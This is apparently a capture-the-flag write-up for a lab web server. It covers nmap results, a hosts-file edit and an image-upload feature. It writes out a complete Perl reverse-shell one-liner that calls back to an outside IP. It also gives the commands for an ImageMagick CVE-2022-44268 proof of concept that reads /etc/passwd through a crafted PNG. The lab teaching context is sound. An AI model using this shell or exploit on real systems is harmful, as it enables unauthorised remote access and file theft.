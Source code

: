 ### Nmap

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e6:b7:14:81:2d:c6:43:bd:f7:8e:ee:b3:7e:32:d3:09 (RSA)
|   256 7d:64:9d:6c:8d:24:9d:53:b4:7a:ac:c8:f9:da:8b:74 (ECDSA)
|_  256 d1:30:1a:39:c6:46:9a:47:91:12:c6:4d:0d:b9:4e:26 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: 404 Not Found
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80

Nmap shows that port 80 is open but we get an error code 404 when trying to access it from the web browser, with a message that site.empman.thm is not recognized so I tried adding the host name to the hosts file:

![[Pasted image 20231123130801.png]]

Now we can access http://site.empman.thm:

![[Pasted image 20231123130904.png]]

Can edit the photo that get shown in the home page:

![[Pasted image 20231123132256.png]]

The site only accepts PNG images.

I will attempt to upload the following shell:
`perl -e 'use Socket;$i="10.13.31.71";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

After some searching I found the following exploit of imagemagic in github:
https://github.com/Vulnmachines/imagemagick-CVE-2022-44268

I cloned the project, then the following command generated a PNG image that the site accepted:
`python3 poc.py generate -o exploit.png -r /etc/passwd`

Than I downloaded the uploaded image from the home page and was able to see the contents of the `/etc/passwd` file with the following command:
`python3 poc.py parse -i out.png`

